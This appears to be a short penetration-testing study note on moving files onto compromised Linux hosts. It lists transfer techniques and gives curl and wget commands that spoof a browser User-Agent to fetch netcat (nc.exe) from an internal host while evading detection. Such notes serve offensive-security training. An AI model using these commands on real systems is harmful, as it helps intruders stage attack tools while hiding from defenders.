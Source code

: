 # Use these techniques to transfer files between systems based on Linux

## [[🟠 1. Base64 Encode & Decode✔️]] 
## [[🟠 2. Wget & cURL Download & Upload✔️]]
## [[🟠 3. Bash Download✔️]]
## [[🟠 4. SSH Download✔️]]
## [[🟠 5. Upload Server✔️]]
## [[🟠 6. Code Download & Upload✔️]]
## [[🟠 7. SMB Download & Upload✔️]]
## [[🟠 8. FTP Download✔️]]
## [[🟠 9. File Encryption✔️|🟠 9. File Encryption✔️]]
## When nothing works/avoiding detection - https://gtfobins.github.io/

# Evading detection: 
## Using another User agent - https://explore.whatismybrowser.com/useragents/explore/
#### Request using curl
```bash
curl -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64) Chrome/112.0.0.0" http://10.10.10.32/nc.exe -o /tmp/nc.exe
```
- `-A` sets the User-Agent.
- `-o` writes the file to disk.
#### Request using wget
```bash
wget --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) Chrome/112.0.0.0" http://10.10.10.32/nc.exe -O /tmp/nc.exe
```
- `--user-agent="..."` spoofs the browser.
- `-O` saves the file.
## Use -  https://gtfobins.github.io/

# Tags
> #Post-Exploitation #File-Transfers #Living-Off-The-Land #Linux-Post-Exploitation 